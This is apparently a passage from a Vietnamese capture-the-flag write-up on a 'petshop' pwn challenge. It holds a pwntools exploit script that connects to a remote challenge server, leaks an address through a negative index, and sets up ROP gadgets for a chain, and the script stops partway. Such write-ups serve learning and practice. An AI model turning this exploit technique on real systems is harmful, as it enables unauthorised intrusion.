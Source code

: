 ![Screenshot 2024-05-13 154302](https://hackmd.io/_uploads/SJshf8kQA.png)

* Từ đó thì mình có binary rồi thì build rop chain nữa là được


![Screenshot 2024-05-13 154717](https://hackmd.io/_uploads/rJSsQ81XA.png)

```py=
#!/usr/bin/python3
from pwn import *

sla = lambda delim, data: p.sendlineafter(delim, data)
sa = lambda delim, data: p.sendafter(delim, data)
s = lambda data: p.send(data)
sl = lambda data: p.sendline(data)
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()


elf = context.binary = ELF('petshop')
libc = ELF('libc-2.31.so')

def int_from_bytes(bytes):
    return int.from_bytes(bytes, byteorder='little')

def buy(type, idx_name, name):
    sla(b'-->', b'buy ' + type + b' ' + str(idx_name).encode())
    sla(b'name?', name)
def sell(idx, size, reason = None):
    sla(b'-->', b'sell ' + str(idx).encode())
    sla(b'reason', str(size).encode())
    if reason != None:
        sla(b'reason', reason)

def GDB(proc):
    gdb.attach(p, gdbscript='''
               b *(sell + 245)
               b *(sell + 367)
               b buy
               c
               ''')


#context.log_level = 'debug'
#p = process()
p = remote('103.163.24.78', 10001)
buy(b'dog', -6, b'hihih')
sla(b'-->', b'info mine')
ru(b'pets:')
ru(b'1. ')
leak = rl()[:-1]
leak = int_from_bytes(leak)
elf.address = leak - 0x4008
POP_RDI = 0x0000000000001a13 + elf.address#: pop rdi ; ret
POP_R15 = 0x0000000000001a11 + elf.address#pop rsi ; pop r15 ret



print('elf: ', hex(elf.address))
print('leak: ', hex(leak))
sell(0, 0x1000)
buy(b'dog', 1, b'\x0f'*0x3f0)
sla(b'-->', b'sell 1')
```